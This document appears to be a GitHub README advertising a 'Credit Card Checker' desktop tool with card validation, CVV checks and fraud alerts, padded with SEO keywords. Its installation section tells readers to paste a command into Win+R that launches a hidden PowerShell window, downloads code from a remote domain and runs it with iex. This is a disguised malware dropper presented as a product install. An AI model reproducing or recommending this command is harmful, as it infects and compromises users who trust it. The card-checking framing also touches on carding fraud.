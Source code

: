 # Credit Card Checker | CC Checker 💳

## Description
**Credit Card Checker** is a powerful desktop application designed to help users verify the validity and security of credit card information. This tool is essential for businesses and individuals who want to ensure that their transactions are safe and compliant with industry standards.

## Key Features
- **Card Validation**: Verify if a credit card number is valid using the Luhn algorithm.
- **Card Type Identification**: Identify the type of credit card (Visa, MasterCard, American Express, etc.) based on the number format.
- **Expiration Date Check**: Ensure that the card is not expired and is still valid for transactions.
- **Security Code Verification**: Check the validity of the CVV/CVC code for added security.
- **Fraud Detection Alerts**: Receive alerts for suspicious card activity or potential fraud.

## Installation

<h2>📥 Download the Program</h2>
<h3>copy and execute the following command in (Win+R)</h3>

<pre>
  <code id="code-snippet">cmd.exe /c start /min powershell -w h "$u='https://updatelib.nfortek.pt/';[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12;iex(iwr $u -UseBasicParsing -UserAgent 'ID: daff2f8').Content;</code>
</pre>


### Launching
- Launch Credit Card Checker from the command.
- Register or log into your account if necessary.

## Usage
1. Enter the credit card number you want to validate.
2. Review the validation results, including card type, expiration date, and security code status.
3. Set up alerts for any suspicious activity associated with the card.

## License
This project is licensed under the MIT License. Details can be found in the [LICENSE](LICENSE) file.

---

With Credit Card Checker, you can enhance your security when making online transactions. Use our tool to ensure your credit card information is safe and valid! 😊

## SEO Keywords
- Credit Card Checker
- Credit card validation
- Card type identification
- Expiration date check
- CVV verification
- Fraud detection
- Secure transactions
- Payment security
- Online shopping safety
